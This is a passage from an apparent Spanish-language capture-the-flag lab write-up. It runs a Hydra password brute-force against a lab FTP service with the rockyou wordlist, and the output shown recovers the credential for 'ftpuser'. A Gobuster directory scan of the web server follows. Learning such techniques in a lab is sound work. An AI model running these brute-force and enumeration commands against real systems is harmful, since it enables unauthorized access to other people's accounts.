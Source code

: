```
ftpuser sshuser tomcatuser
```

Por lo que nos podriamos crear un diccionario de usuarios y tirarlo con un `rockyou.txt` al servidor `ftp` pero probaremos con el primer usuario solo.

```shell
hydra -l ftpuser -P <WORDLIST> ftp://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-24 11:20:56
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://172.26.0.2:21/
[STATUS] 864.00 tries/min, 864 tries in 00:01h, 14343549 to do in 276:42h, 50 active
[21][ftp] host: 172.26.0.2   login: ftpuser   password: bebita
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 14 final worker threads did not complete until end.
[ERROR] 14 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-24 11:22:06
```

Por lo que vemos nos saca las credenciales, pero al conectarnos a el no veremos mucho, por lo que intentaremos seguir buscando en la pagina web.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.26.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 4515]
```